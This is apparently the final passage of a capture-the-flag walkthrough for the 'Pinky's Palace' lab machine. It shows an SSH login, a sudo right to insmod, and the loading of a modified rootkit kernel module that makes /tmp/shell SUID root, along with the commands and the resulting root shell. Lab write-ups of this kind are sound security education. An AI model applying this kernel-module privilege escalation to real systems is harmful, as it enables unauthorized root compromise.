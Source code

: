 ```bash  
uid=1000(pinky) gid=1002(pinksecmanagement) groups=1002(pinksecmanagement)  
```  
  
  
pinky  
-----  
```bash  
root@kali:~/panther# ssh -p 5555 pinky@192.168.0.74 -i id_rsa  
Linux pinkys-palace 4.9.0-6-686 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) i686  
  
The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
Last login: Tue May 15 04:32:07 2018 from 172.19.19.251  
pinky@pinkys-palace:~$  
```  
We're almost at the finish line!  In the `pinky` user we find two sudo permissions. 
```  
pinky@pinkys-palace:~$ sudo -l  
Matching Defaults entries for pinky on pinkys-palace:  
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
  
User pinky may run the following commands on pinkys-palace:  
(ALL) NOPASSWD: /sbin/insmod  
(ALL) NOPASSWD: /sbin/rmmod  
```  
These allow us to add and remove kernel modules, which obviously would give us full control of the kernel.  There are a tonne of rootkits out there that would enable you to get full system privileges, but something simple is much nicer.  There is a nice rootkit on (Pink Panther's github)[https://github.com/PinkP4nther/Pinkit], which I shamelessly stole but made a small alteration.  Instead of tcp shell, I just made it give SUID permissions to a custom program which spawns `/bin/bash`.
  
```bash  
chown root:root /tmp/shell; chmod u+s /tmp/shell  
```  
We can see the full exploit process here, as the exploit is run at module load time.
```bash  
pinky@pinkys-palace:~/pinkit$ ls -la /tmp/shell  
-rwxr-xr-x 1 pinky pinky 7540 May 28 11:39 /tmp/shell  
pinky@pinkys-palace:~/pinkit$ sudo insmod pinkit.ko  
pinky@pinkys-palace:~/pinkit$ ls -la /tmp/shell  
-rwsr-xr-x 1 root root 7540 May 28 11:39 /tmp/shell  
pinky@pinkys-palace:~/pinkit$ /tmp/shell  
ID: 0  
# id  
uid=0(root) gid=1000(pinky) groups=1000(pinky),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)  
```

And there we have it!

![](https://pbs.twimg.com/media/DeQM_peWAAAgJov.jpg:large)

Many thanks to [@Pink_P4nther](https://twitter.com/@Pink_P4nther), a very well designed box.
